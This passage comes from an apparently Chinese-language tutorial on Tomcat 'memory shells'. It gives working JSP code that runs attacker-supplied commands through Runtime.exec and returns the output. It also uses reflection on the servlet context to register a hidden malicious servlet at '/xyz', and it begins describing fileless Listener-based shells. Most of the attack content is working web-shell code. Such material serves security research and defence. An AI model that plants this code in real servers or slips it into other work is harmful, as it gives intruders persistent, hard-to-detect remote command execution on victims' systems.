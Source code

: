 ```jsp
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
        }
    }
%>


<%
    ServletContext servletContext =  request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    ServletDemo demo = new ServletDemo();
    org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();

//设置Servlet名等
    demoWrapper.setName("xyz");
    demoWrapper.setLoadOnStartup(1);
    demoWrapper.setServlet(demo);
    demoWrapper.setServletClass(demo.getClass().getName());
    standardContext.addChild(demoWrapper);

//设置ServletMap
    standardContext.addServletMapping("/xyz", "xyz");
    out.println("inject servlet success!");
%>
```

差不多的操作,写一个恶意的Servlet(恶意代码在service方法中),然后获取ApplicationContext,接着反射添加Servlet。

servlet型的内存马无法使所有请求都经过恶意代码，只有访问我们设定的url才能触发

# listener内存马

Listener是javaweb中的监听器，监听某一个java对象的方法调用或属性改变，当被监听对象发生上述事件后，监听器某个方法立即被执行。

Listener内存马是通过动态注册一个Listener，其监听到某个参数传入时，则将参数用于命令执行，由于是动态注册的，所以这个Listener没有文件实体，存在于内存中，随着tomcat重启而消失。
